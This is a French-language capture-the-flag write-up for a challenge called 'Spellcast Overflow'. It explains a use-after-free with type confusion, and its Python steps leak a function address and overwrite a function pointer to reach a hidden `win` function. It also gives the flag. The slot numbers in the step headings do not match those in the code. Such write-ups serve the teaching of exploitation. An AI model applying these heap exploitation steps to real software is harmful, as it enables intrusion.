 # Spellcast Overflow

## Tl;Dr
**Use-after-free with type confusion to call `win`.**

## Contexte

On interagit avec un service permettant de gérer des "personnages" disposant de différentes actions. L’objectif est d’exploiter une faille de type *Use after free* et une confusion de type afin de rediriger l’exécution vers une fonction cachée (`win`) qui affiche le flag.

Le service présente une interface avec :
- La création de personnages parmi plusieurs types (humain, sorcier, alchimiste, etc.).
- 4 slots accueillant des personnages
- une suppression (pas ouf) d'un slot
- des actions en fonction du type

---

## Fonctionnement global

Le programme permet de créer et manipuler des personnages avec des actions spécifiques. Cependant, la suppression d’un personnage libère la mémoire associée (dans la heap) sans effacer son type dans une liste séparée ni le pointeur vers cette zone (heap). 

**Cela entraîne une confusion possible entre types de personnages.**

Les slots ne sont jamais réelement libérés, cependant les zones mémoires le sont. Vu que la taille d'une structure `Sorcerer` ou `Alchemist` est la même que celle d'un `Human`, il est possible de les faire s'overlapper.

L'exploit se déroule en deux phases :
1. Une fuite de l'adresse de `spell` (en utilisant l'affichage de l'age d'un humain).
2. Le changement du pointeur `cast_spell` (qui pointe vers `spell`) vers `win` à l'aide de l'écriture de l'age d'un humain.

Voici un schéma de la heap après exploitation:

---------------------------------------------------------------------------------
| Slot 0: Human                           | Slot 1: Sorcerer                    |
|-----------------------------------------|--------------------------------------
| Name: "Harry"                           | Name: "Harry"                       |
| Age: 0x12345678                         | cast_spell: 0x12345678              |
---------------------------------------------------------------------------------
| Slot 2: Sorcerer                        | Slot 3: Human                       |
|-----------------------------------------|--------------------------------------
| Name: "Alice"                           | Name: "Alice"                       |
| Age: 0xdeadbeef (win func)              | cast_spell: 0xdeadbeef (win func)   |
---------------------------------------------------------------------------------


---

## Exploit

### Étapes :

1. **(slot 0)** Créer un humain :  
   On crée un humain qui sera utilisé plus tard pour obtenir une fuite d’adresse.

   ```python
   create_human(p, slot=1, name="John", age=30)
   ```

2. **(slot 0)** Supprimer l’humain :  
   Le slot est libéré, mais son type reste enregistré.

   ```python
   delete_character(p, slot=1)
   ```

3. **(slot 1)** Créer un sorcier :  
   Un sorcier est créé dans un autre slot mais overlap la zone mémoire de "John".

   ```python
   create_sorcerer(p, slot=2, name="Harry")
   ```

4. **(slot 1)** Lire l’age (fuite d’adresse) :  
   En accédant à l’action humaine "lire l’âge" dans le **slot 1**, on récupère une adresse mémoire. Cet âge correspond à l’adresse de la fonction `spell`.

   ```python
   leaked_address = read_human_age(p, slot=1)
   print(f"Leaked address: {hex(leaked_address)}")
   ```

5. **Calculer l’offset vers `win`** :  
   À partir du binaire fourni, on calcule l’offset entre `spell` et `win` :

   ```python
   offset = win_address - spell_address
   ```

6. **(slot 2)** Créer un nouveau sorcier :  
   On prépare un nouveau sorcier dans un autre slot pour le réutiliser plus tard.

   ```python
   create_sorcerer(p, slot=3, name="Hermione")
   ```

7. **(slot 2)** Supprimer le personnage :  
   Libération du slot pour permettre une future réutilisation.

   ```python
   delete_character(p, slot=3)
   ```

8. **(slot 3)** Créer un humain avec un âge "spécial" :  
   L’âge de ce nouvel humain est l’adresse calculée de la fonction `win`.

   ```python
   create_human(p, slot=4, name="Alice", age=win_address)
   ```

9. **(slot 2)** Appeler l’action "cast_spell" :  
    On a réécrit le pointeur `cast_spell` par `win`.
   ```python
   perform_sorcerer_action(p, slot=3)
   ```

---

### Résultat

L’appel détourné vers `win` permet d’afficher le flag !

---

## Flag

> **NBCTF{If_Pwn_Is_Magic_Heap_Is_SORCERY!}**